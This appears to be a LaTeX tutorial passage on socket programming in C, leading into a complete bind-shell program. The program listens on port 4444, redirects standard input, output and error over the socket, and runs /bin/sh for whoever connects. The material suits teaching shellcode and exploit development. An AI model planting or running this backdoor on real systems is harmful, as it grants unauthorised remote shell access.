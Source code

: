 \documentclass[11pt]{article}
\begin{document}
From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

\begin{itemize}
\item Socket: Open a socket over which we will communicate. Essentially a file descriptor
\item Bind: Bind our socket to an interface on our system
\item Listen: Tell our system that we are ready to start accepting connections
\item Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted
\end{itemize}

Functions we won't worry about:

\begin{itemize}
\item Send
\item Recv
\item Connect
\item Close
\end{itemize}

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

So lets get some code going!

\begin{verbatim}
#include <stdio.h>
#include <netinet/in.h>
#define PORT 4444

int main(int argc, char **argv)
{
  // Create a socket
  int lsock = socket(AF_INET, SOCK_STREAM, 0);

  // Setup servr side config struct
  // We configure:
  // The family:IPv4
  // The interface: 0.0.0.0 (any)
  // The port: port#
  struct sockaddr_in config;
  config.sin_family = AF_INET;
  config.sin_addr.s_addr = INADDR_ANY;
  config.sin_port = htons(PORT);

  // Bind the created socket with the interface
  // specified in the configuration
  bind(lsock, (struct sockaddr *)&config, sizeof(config));

  // Listen on the socket
  listen(lsock, 0);

  // Accept the incoming connection
  int csock = accept(lsock, NULL, NULL);
  // Redirect stdin, stdout, and stderror
  dup2(csock, 0);
  dup2(csock, 1);
  dup2(csock, 2);

  // Execute a shell
  execve("/bin/sh", NULL, NULL);
};
\end{verbatim}
\end{document}
